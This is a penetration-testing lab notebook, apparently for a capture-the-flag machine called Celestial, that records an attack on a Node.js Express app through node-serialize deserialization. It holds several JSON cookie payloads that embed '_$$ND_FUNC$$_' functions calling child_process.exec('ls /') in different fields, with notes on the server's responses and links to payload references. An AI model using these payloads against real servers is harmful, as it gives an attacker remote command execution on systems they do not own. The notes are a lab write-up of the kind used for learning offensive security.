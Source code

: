 # Celestial Notes

## Data 

IP: 
OS:
Hostname:
Machine Purpose: 
Services: Node JS Express
Service Languages: Js
Users:
Credentials:

## Objectives

## Target Map

![](Celestial-map.excalidraw.md)

## Solution Inventory Map


### Todo 

Make Excalidraw

### Done
      


Masscan did not work :/

cookiedummy.png

percent3disequals.png

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"FIELD1","country":"FIELD2","city":"FIELD#","num":"FIELD4-NUM"}
// Next break the cookie for enumeration
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} - "
```


expressintheburp.png

archive0.png
and
archive1.png

[Hacktricks Deserialization article](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)'s section on Deserialization attacks for [Nodejs](https://nodejs.org/en)

Test to see what is evaluated base on what reflected back to us first - make Node do maths
decodechangeandencodepoc.png

Confirming concatenation of two strings
pocandconfrmingevaluationoftype.png

Next always break for error codes:
```json
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} 
```
 Original for comparison
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](nodealwayhasverboserrors.png)

We get a username, location that the web is running the npm module from and some directory information. With indication that is serializing with the serialization.js library. [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)
```json
"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"

{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

// Third Attempt
{"username":"Dummy","country":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","city":"Lametown","num":"2"}

// Second Attmept
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","num":"2"}

// First Attempt:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

First attempt
firstattempt.png

Second attempt
secondattempt.png

[304 - Not Modifed](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) *"client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method, such as [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) or [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD), or when the request is conditional and uses an [`If-None-Match`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) or an [`If-Modified-Since`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) header."*

Third attempt
thirdattempt.png

Forth attempt - Different Error though, but the same as if we broke json
forthattempt.png

```
{"username":_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},"country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

```

Copying and pasting the source code from [here](https://www.npmjs.com/package/node-serialize?activeTab=code)
funcflag.png


funcflagusage.png


line49.png

lines7475.png

Check:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/f85f2cb4c60c5d4c869794f04c409826dc52ae86/Insecure%20Deserialization/Node.md?plain=1#L1


https://attack.mitre.org/techniques/T1059/007/  [Chaes](https://attack.mitre.org/software/S0631) is a multistage information stealer written in several programming languages that collects login credentials, credit card numbers, and other financial information. Ialso uses NodeJS Puppeer npm package.

https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf